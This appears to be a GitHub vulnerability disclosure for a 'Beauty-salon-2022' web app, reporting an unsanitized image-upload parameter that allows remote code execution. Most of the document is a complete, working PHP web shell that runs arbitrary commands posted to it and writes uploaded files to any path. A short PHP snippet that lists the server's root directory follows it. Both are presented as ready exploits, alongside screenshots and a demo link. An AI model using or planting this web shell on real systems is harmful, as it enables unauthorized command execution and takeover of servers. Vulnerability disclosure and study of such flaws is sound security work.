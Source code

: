 ## Beauty-salon-2022-Webshell-file-upload-RCE

![](https://github.com/nu11secur1ty/NVE/blob/NVE-master/2022/NVE-2022-1012/Docs/Screenshot%202022-10-12%20162133.png)

## Description:
The parameter `userimage` from Beauty-salon-2022 suffers from Web Shell-File Upload - RCE.
NOTE: The user permissions of this system are not working correctly, and the function is not sanitizing well.
The attacker can use an already created account from someone who controls this system and he can upload a very malicious file by using this vulnerability, 
or more precisely (no sanitizing of function for edit image), for whatever account, then he can execute it from anywhere on the external network.

Status: HIGH Vulnerability

[+] Exploit-File-Upload:

```php
<!-- Project Name : PHP Web Shell -->
<!-- Version : 4.0 nu11secur1ty -->
<!-- First development date : 2022/10/05 -->
<!-- This Version development date : 2022/10/05 -->
<!-- Moded and working with PHP 8 : 2022/10/05 -->
<!-- language : html, css, javascript, php -->
<!-- Developer : nu11secur1ty -->
<!-- Web site : https://www.nu11secur1ty.com/ -->

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
	<head>
		<meta http-equiv="Content-Type" content="text/html" charset="euc-kr">
		<title>PHP Web Shell Ver 4.0 by nu11secur1ty</title>
		<script type="text/javascript">
			function FocusIn(obj)
			{
				if(obj.value == obj.defaultValue)
					obj.value = '';
			}
			
			function FocusOut(obj)
			{
				if(obj.value == '')
					obj.value = obj.defaultValue;
			}
		</script>
	</head>
	<body>
		<b>WebShell's Location = http://<?php echo $_SERVER['HTTP_HOST']; echo $_SERVER['REQUEST_URI'] ?></b><br><br>
		
		HTTP_HOST = <?php echo $_SERVER['HTTP_HOST'] ?><br>
		REQUEST_URI = <?php echo $_SERVER['REQUEST_URI'] ?><br>
		
		<br>
		
		<form name="cmd_exec" method="post" action="http://<?php echo $_SERVER['HTTP_HOST']; echo $_SERVER['REQUEST_URI'] ?>">	
			<input type="text" name="cmd" size="70" maxlength="500" value="Input command to execute" onfocus="FocusIn(document.cmd_exec.cmd)" onblur="FocusOut(document.cmd_exec.cmd)">
			<input type="submit" name="exec" value="exec">
		</form>
		<?php
			if(isset($_POST['exec']))
			{
				exec($_POST['cmd'],$result);

				echo '----------------- < OutPut > -----------------';
				echo '<pre>';
				foreach($result as $print)
				{
					$print = str_replace('<','&lt;',$print);
					echo $print . '<br>';
				}
				echo '</pre>';
			}
			else echo '<br>';
		?>
		
		<form enctype="multipart/form-data" name="file_upload" method="post" action="http://<?php echo $_SERVER['HTTP_HOST']; echo $_SERVER['REQUEST_URI'] ?>">
			<input type="file" name="file">
			<input type="submit" name="upload" value="upload"><br>
			<input type="text" name="target" size="100" value="Location where file will be uploaded (include file name!)" onfocus="FocusIn(document.file_upload.target)" onblur="FocusOut(document.file_upload.target)">
		</form>
		<?php
			if(isset($_POST['upload']))
			{
				$check = move_uploaded_file($_FILES['file']['tmp_name'], $_POST['target']);
				
				if($check == TRUE)
					echo '<pre>The file was uploaded successfully!!</pre>';
				else
					echo '<pre>File Upload was failed...</pre>';
			}
		?>
	</body>
</html>
```
[+]Exploit-RCE:

```PHP
<?php
$dir    = '/';
$files1 = scandir($dir);
$files2 = scandir($dir, 1);

print_r($files1);
print_r($files2);
?>
```
![](https://github.com/nu11secur1ty/NVE/blob/NVE-master/2022/NVE-2022-1012/Docs/Screenshot%202022-10-18%20112750.png)

- In action

![](https://github.com/nu11secur1ty/NVE/blob/NVE-master/2022/NVE-2022-1012/Docs/RCE.gif)

# Proof and Exploit:
[href](https://streamable.com/ewdmoh)
